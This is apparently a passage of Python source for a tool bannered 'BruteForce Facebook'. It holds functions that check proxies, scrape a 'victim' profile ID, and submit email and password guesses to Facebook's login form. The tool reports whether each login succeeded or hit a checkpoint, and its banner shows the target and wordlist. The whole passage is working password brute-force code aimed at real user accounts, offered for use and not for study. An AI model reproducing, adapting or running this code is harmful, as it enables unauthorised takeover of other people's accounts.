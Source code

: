 
    @staticmethod
    def check_proxy(proxy):
          proxies = {'https':"https://"+proxy, 'http':"http://"+proxy}
          proxy_ip = proxy.split(":")[0]
          try:
            r = requests.get('https://www.wikipedia.org',proxies=proxies, timeout=5)
            if proxy_ip==r.headers['X-Client-IP']: return True
            return False
          except Exception : return False


    @staticmethod
    def cnet():
        try:
            socket.create_connection((socket.gethostbyname("www.google.com"), 80), 2)
            return True
        except socket.error:pass
        return False


    def get_profile_id(self, target_profile):
        try:
            print(gr+"\n["+wi+"*"+gr+"] geting target Profile Id... please wait"+wi)
            idre = re.compile('"entity_id":"([0-9]+)"')
            con = requests.get(target_profile).text
            idis = idre.findall(con)
            print(wi+"\n["+gr+"+"+wi+"]"+gr+" Target Profile"+wi+" ID: "+yl+idis[0]+wi)
        except IndexError:
            errMsg("Please Check Your Victim's Profile URL")
            sys.exit(1)


    def login(self,target, password):

        try:
            self.br.open("https://facebook.com")
            self.br.select_form(nr=0)
            self.br.form['email']=target
            self.br.form['pass']= password
            self.br.method ="POST"
            if self.br.submit().get_data().__contains__(b'home_icon'):return  1
            elif "checkpoint" in self.br.geturl(): return 2
            return 0
        except(KeyboardInterrupt, EOFError):
            print(rd+"\n["+yl+"!"+rd+"]"+yl+" Aborting"+rd+"..."+wi)
            time.sleep(1.5)
            sys.exit(1)
        except Exception as e:
            print(rd+" Error: "+yl+str(e)+wi+"\n")
            time.sleep(0.60)


    def banner(self,target,wordlist,single_passwd):

        proxystatus = gr+self.useProxy+wi+"["+gr+"ON"+wi+"]" if self.useProxy  else yl+"["+rd+"OFF"+yl+"]"
        print(gr+"""
=================================================
[---]        """+wi+"""FB-TARGET"""+gr+"""        [---]
=================================================
[---]  """+wi+"""BruteForce Facebook  """+gr+""" [---]
=================================================
[---]  """+yl+"""Created BY Jutt Badshah"""+gr+""" [---]
=================================================
[>] Target      :> """+wi+target+gr+"""
{}""".format("[>] Wordlist    :> "+yl+str(wordlist) if not single_passwd else "[>] Password    :> "+yl+str(single_passwd))+gr+"""
[>] ProxyStatus :> """+str(proxystatus)+wi)